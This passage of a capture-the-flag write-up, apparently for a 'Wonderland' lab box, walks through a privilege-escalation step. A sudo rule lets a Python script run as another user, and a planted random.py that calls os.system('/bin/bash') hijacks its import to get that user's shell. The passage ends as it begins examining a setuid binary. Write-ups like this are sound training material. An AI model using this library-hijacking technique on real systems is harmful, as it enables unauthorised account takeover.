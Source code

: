 ``` sh
...
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

We try to see if I have any sudo permissions. Apparently, the scripts runs using sudo privileges.

``` sh
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

So we need to change the python random.py script to run bash, using the user rabbit.
To see where are the python packages, we run the following command:

``` sh
alice@wonderland:~$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
```

Thus, we create a random.py containing what we need to escalate.
Python will take first the current directory, then the */usr/lib/python36.zip*, etc...

``` sh
alice@wonderland:~$ cat random.py 
import os

os.system('/bin/bash')
```

After being able to usurpate the rabbit account, we go the the home foler and we find a setUID elf binary called `teaParty`.

``` sh
rabbit@wonderland:/home/rabbit$ ls -l
total 20
-rwsr-sr-x 1 root root 16816 May 25  2020 teaParty

rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sat, 30 Sep 2023 22:19:16 +0000
Ask very nicely, and I will give you some tea while you wait for him

Segmentation fault (core dumped)
```

We get a "Segmentation fault (core dumped)" returned string, so we may have to put a special keyword.
I'll analyze the binary by using `strings` on my own machine since it's not available in wonderland.
We can also use Ghidra to get more details.  
